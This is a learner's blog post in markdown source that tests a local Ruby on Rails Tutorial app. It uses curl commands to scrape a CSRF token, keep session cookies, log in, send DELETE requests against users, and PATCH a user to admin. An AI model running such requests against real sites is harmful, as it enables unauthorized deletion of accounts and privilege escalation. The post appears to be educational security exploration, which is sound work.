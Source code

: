 ```yaml
---
layout: post
title: Hacking into the mainframe
date: 2020-10-24 13:22 +1100
description: Calling unsecured controller actions from the command line with curl.
tags: ["rails", "rails-tutorial"]
---
```


I was going through [Michael Hartl's Ruby on Rails Tutorial](https://railstutorial.org) as I am [wont to do](/tag/rails-tutorial) and reached this point in chapter 10:

>As constructed, only admins can destroy users through the web since only they can see the delete links, but there’s still a terrible security hole: _any sufficiently sophisticated attacker could simply issue a `DELETE` request directly from the command line to delete any user on the site._

This caused me to ponder: am I a sufficiently sophisticated attacker? There was only one way to find out. I decided to try and issue just such a `DELETE` request myself.

## Sending evil HTTP requests from the command line with cURL

[cURL is a "command line tool and library for transferring data with URLs"](https://curl.haxx.se/). You can use it to, among other things, pretend to be a browser and send HTTP requests (evil or benign) directly from the command line.

__TODO: Show basic `curl` commands.__

But could it be as simple as sending a `DELETE` request to `/users/1`?

```shell
$ curl -s -X DELETE http://localhost:3000/users/1
```

Unfortunately (or fortunately) no:

```
Action Controller: Exception caught
ActionController::InvalidAuthenticityToken
```

This was the famous "CSRF token". The book briefly touched upon these but I didn't quite get how they worked or what they were for.

Every newly loaded page contained such a token; if I simply visited a page first with a `GET` request, grabbed a valid token and then passed it along in my subsequent `DELETE` request could I overcome this obstacle?

```shell
$ curl -s http://localhost:3000 | grep csrf-token
```

```html
<meta name="csrf-token" content="VlwVWGJP2BeIlnx/UbgJrolzVhoU2J6O6OBeYlZlVzZq70GfD7Is4Jkgpz1M4i/Xc1LME1pbBTQQLGFiUTc/lw==" />
```
Excellent.

But how do I use it?

Store it in an enviornment variable and pass it along as data with the request.

```shell
CSRF_TOKEN=`curl -s http://localhost:3000/ | grep csrf-token | awk -F'"' '{print $4}'`
```

I discovered you will need to use `--data-urlencode` rather than `--data` for the token to be sent properly.

```shell
curl -s -X DELETE http://localhost:3000/users/99 --data-urlencode "authenticity_token=$CSRF_TOKEN"
```

Still `ActionController::InvalidAuthenticityToken`.

Cookies bro.

```shell
$ CSRF_TOKEN=`curl -s http://localhost:3000/ -c cookie | grep csrf-token | awk -F'"' '{print $4}'`
```

```shell
$ curl -s -X DELETE http://localhost:3000/users/99 --data-urlencode "authenticity_token=$CSRF_TOKEN" -b cookie
```


```shell
$ CSRF_TOKEN=`curl http://localhost:3000 -c cookie \
  | grep csrf-token \
  | awk -F'"' '{print $4}'`
```

```shell
$ curl -X POST http://localhost:3000/login -d "session[email]=example-1@railstutorial.org&session[password]=password" --data-urlencode "authenticity_token=$CSRF_TOKEN" -b cookie -c cookie | less
```

```shell
$ CSRF_TOKEN=`curl -s http://localhost:3000/users -c cookie -b cookie | grep csrf-token | awk -F'"' '{print $4}'`
```

```shell
$ curl -X DELETE http://localhost:3000/users/99 --data-urlencode "authenticity_token=$CSRF_TOKEN" -b cookie | less
```

```shell
$ curl -X PATCH http://localhost:3000/users/2 -d "user[admin]=1" --data-urlencode "authenticity_token=$CSRF_TOKEN" -b cookie | less
```
